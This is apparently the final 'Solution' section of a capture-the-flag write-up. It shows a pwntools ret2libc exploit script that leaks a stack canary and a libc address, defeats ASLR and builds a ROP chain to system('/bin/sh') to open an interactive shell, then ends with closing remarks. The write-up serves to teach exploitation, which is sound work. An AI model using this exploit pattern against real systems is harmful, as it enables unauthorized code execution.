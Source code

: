 
# Solution

The solution is a simple [ret2libc](https://en.wikipedia.org/wiki/Return-to-libc_attack), as previously described:

```py
p = log.progress("Info leaking (might hang / crash here)")
p.status("stack cookie")
stack_cookie = leak_bytes(11, 7).rjust(8, b"\x00") # Skipping last byte, it's always going to be 0
p.status("libc _IO_file_underflow")
libc_uflow = leak_p64(-0x66,6)
p.success("leaked stack cookie, ret address and libc")
libc.address = u64(libc_uflow) - 0xdd - libc.sym["_IO_file_underflow"]
system = p64(libc.sym["system"]) # cannot use win() due to \n in its address
gadget = p64(libc.address + POP_RDI_RET_LIBC) # pop rdi; ret;
binsh = p64(next(libc.search(b"/bin/sh")))
BAD_CHARS = [b"\t", b" ", b"\n", b"\v", b"\f", b"\r"] # \x00 is good because we can go multiple writes
log.info(f"cookie: 0x{u64(stack_cookie):08x}")
log.info(f"libc /bin/sh: 0x{u64(binsh):08x}")
assert(all(x not in obj for obj in [stack_cookie, system, binsh, gadget] for x in BAD_CHARS)) # unlucky ASLR
log.success("ASLR and canary bypassed!")
p2 = log.progress("Popping shell")
bof(flat({0x28: stack_cookie, 0x38: gadget, 0x40: binsh, 0x48: system}))
sla(b"> ", b"0")
p2.success("")
io.interactive()
```

In action:

{{<bundle-image
      name="ret2libc.png"
      alt="ret2libc"
      caption="ret2libc"
      style="max-height: 50%" >}}

And if you made it all the way to the end—congratulations, brave reader! Thanks for sticking with me through this wild ride. Hopefully, you not only enjoyed it but picked up a new insight or two along the way.

As for me? I learned firsthand that what looks like a simple problem often has a way of masking a much deeper, more tangled challenge. But hey, that's exactly what makes the final breakthrough all the more satisfying!
